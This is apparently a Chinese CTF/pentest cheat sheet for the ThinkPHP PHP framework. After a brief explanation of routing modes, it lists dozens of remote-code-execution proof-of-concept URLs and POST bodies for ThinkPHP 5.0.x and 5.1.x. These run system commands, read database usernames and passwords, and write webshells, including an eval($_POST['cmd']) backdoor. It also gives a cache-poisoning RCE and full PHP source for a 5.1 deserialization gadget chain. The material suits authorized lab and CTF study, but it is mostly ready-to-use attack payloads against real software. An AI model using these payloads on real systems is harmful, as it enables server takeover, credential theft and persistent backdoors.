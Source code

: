 ## **Thinkphp代码基础**
thinkphp3.2的路由模式：PATHINFO模式
```
http://serverName/index.php/模块/控制器/操作
```
为了访问下图中的index方法并传入name参数，输出hello 123我们可以通过下面四种模式。 
```
PATHINFO模式 http://localhost/index.php/Home/Index/index/name/123/ 
普通模式 http://localhost/index.php?m=Home&c=Index&f=index&name=123 
兼容模式 http://localhost/index.php?s=Home/Index/index/name/123 
    其中参数s来自于ThinkPHP->Conf->convention.php中的VAR_PATH_INFO设置,所以我们也可以改成其他的参数。 

REWRITE模式 http://localhost/Home/Index/index/name/123/
```
![](.topwrite/assets/image_1735972282571.png)



## **Thinkphp RCE　POC大全**
在 Vulhub 中，也可以找到了该漏洞的利用 POC
一般也可以用工具一把梭
输入路径加上public
```
http://5cffd11c-0f8a-46c7-8b5f-cdfde62cc85c.challenge.ctf.show/public/
```
**Thinkphp 5.0.22 POC**
1. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username`
2. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password`
3. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
4. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5 POC**
5. `http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1`

**Thinkphp 5.0.21 POC**
6. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
7. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5.1.x POC**
8. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1`
9. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd`
10. `http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E`
11. `http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E`
12. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
13. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`
14. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
15. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`

**Thinkphp 未知版本 POC**
16. `?s=index/\think\module/action/param1/${@phpinfo()}`
17. `?s=index/\think\Module/Action/Param/${@phpinfo()}`
18. `?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}`

**Thinkphp 5.0.23 (完整版) debug模式 POC**
32. `(post)public/index.php 
32. (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx`

```
echo "<?php phpinfo();?>" > /var/www/public/test2.php

echo "<?php @eval(\$_POST['cmd']);?>" > /var/www/public/test.php
```




**Thinkphp 5.0.23 (完整版) POC**
33. `（post）public/index.php?s=captcha
33.  (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al`

**Thinkphp 5.0.10 (完整版) POC**
34. `(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system`

**Thinkphp 5.1.x 和 5.2.x 和 5.0.x POC**
35. `(post)public/index.php (data)c=exec&f=calc.exe&_method=filter`



^
## **Thinkphp cache缓存函数远程代码执行漏洞**
https://blog.csdn.net/rfrder/article/details/114599310
tinkphp5.0.5默认控制器的部分代码，使用默认路由：
```
<?php
 public function rce(){
        Cache::set("cache",input('get.cache'));
        return 'done';
    }
```

缓存生成的路径和文件名是根据参数名的md5值计算的，这里是cache。
```
/public/index.php?s=index/index/rce&cache=%0d%0asystem(%27cat%20/flag%27);//
再访问缓存路径： /runtime/cache/0f/ea6a13c52b4d4725368f24b045ca84.php
```


^
^
## **Tinkphp 5.1反序列化**
一般工具一把梭
入口
```
?&lin=cat /flag&data=序列化串
?lin=id  POST  code=序列化串
```
```
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["lin"=>["calc.exe","calc"]];
        $this->data = ["lin"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system"; //PHP函数
    protected $config = [
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',  
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>'lin']; //PHP函数的参数
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}


namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```